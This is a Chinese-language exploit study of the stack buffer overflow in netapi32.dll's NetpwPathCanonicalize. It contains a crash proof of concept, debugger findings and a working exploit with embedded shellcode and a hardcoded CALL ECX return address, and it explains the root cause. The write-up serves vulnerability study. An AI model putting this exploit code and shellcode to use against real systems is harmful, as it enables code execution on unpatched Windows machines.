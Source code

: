# 简要分析

漏洞点存在为netapi32.dll中的NetpwPathCanonicalize()导出函数，NetpwPathCanonicalize()是netapi32.dll的一个导出函数，用于格式化网络路径字符串，它的原型如下：

```
int NetpwPathCanonicalize (
uint16 path[ ], // [in] path name
uint8 can_path[ ], // [out] canonicalized path
uint32 maxbuf, // [in] max size of can_path
uint16 prefix[ ], // [in] path prefix
uint32* pathtype, // [in out] path type
uint32 pathflags // [in] path flags, 0 or 1
);
```

这是一个Unicode字符串处理函数，大体功能是：如果prefix串非空，将prefix串与path串用‘\’相连，并复制到输出串can_path中，输出串的容量为maxbuf字节大小：

```
can_path=prefix+"\"+path
```

触发漏洞的POC：

```C++
#include<windows.h>

typedef void (*MYPROC)(LPTSTR, char *, int, char *, long *, bool);

int main()
{	
	char path[0x320];
	char can_path[0x440];
	int maxbuf=0x440;
	char prefix[0x100];
	long pathtype=44;

	HINSTANCE LibHandle;
	MYPROC Trigger;

	char dll[ ] = "./netapi32.dll";
	char VulFunc[ ] = "NetpwPathCanonicalize";
	LibHandle = LoadLibrary(dll);
	Trigger = (MYPROC) GetProcAddress(LibHandle, VulFunc);

	memset(path,0,sizeof(path));
	memset(path,'a',sizeof(path)-2);
	memset(prefix,0,sizeof(prefix));
	memset(prefix,'b',sizeof(prefix)-2);
	
	(Trigger)(path,can_path,maxbuf,prefix,&pathtype,0);
	FreeLibrary(LibHandle);

	return 0;
}
```

POC说明：导入存在漏洞的netapi32.dll中的NetpwPathCanonicalize函数，将path和prefix设置的很长以触发漏洞。

运行后报错，使用OD attach：

![](./dbg1.JPG)

EIP被覆盖为"aaaa"的ascii：0x61616161，可见传入的参数溢出，覆盖了EIP。

算出VA：0x75107B13

在这里程序再一次crash：

![](./dbg2.JPG)

在这个wscat的拼接函数完成后存储返回地址的地方（0x12F6A8）被覆盖：

![](./dbg3.JPG)

![](./dbg4.JPG)

根据ECX总是指向栈开始的buff可以构造如下shellcode：

shellcode+patch+(jmp ecx)

call ecx：0x796DB16C

修改后POC：

```C++
#include<windows.h>

typedef void (*MYPROC)(LPTSTR, char *, int, char *, long *, bool);

char shellcode[]=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x74\x65\x73\x74\x68\x6D\x69\x78\x69\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8";

int main()
{	
	char path[0x320];
	char can_path[0x440];
	int maxbuf=0x440;
	char prefix[0x100];
	long pathtype=44;

	HINSTANCE LibHandle;
	MYPROC Trigger;

	char dll[ ] = "./netapi32.dll";
	char VulFunc[ ] = "NetpwPathCanonicalize";
	
	LibHandle = LoadLibrary(dll);

	//__asm int 3;

	Trigger = (MYPROC) GetProcAddress(LibHandle, VulFunc);

	memset(path,0,sizeof(path));
	memset(path,'a',sizeof(path)-2);
	memset(prefix,0,sizeof(prefix));
	memset(prefix,'b',sizeof(prefix)-2);
	
	memcpy(prefix,shellcode,168);

	path[0x318]=0x6C;// address of CALL ECX
	path[0x319]=0xB1;
	path[0x31A]=0x6D;
	path[0x31B]=0x79;

	(Trigger)(path,can_path,maxbuf,prefix ,&pathtype,0);
	FreeLibrary(LibHandle);

	return 0;
}
```

攻击成功：

![](./success1.JPG)

静态分析结果：

![](./dbg5.JPG)

按照ASCII字符开辟空间，按照Unicode字符来检查边界是漏洞的根本原因。
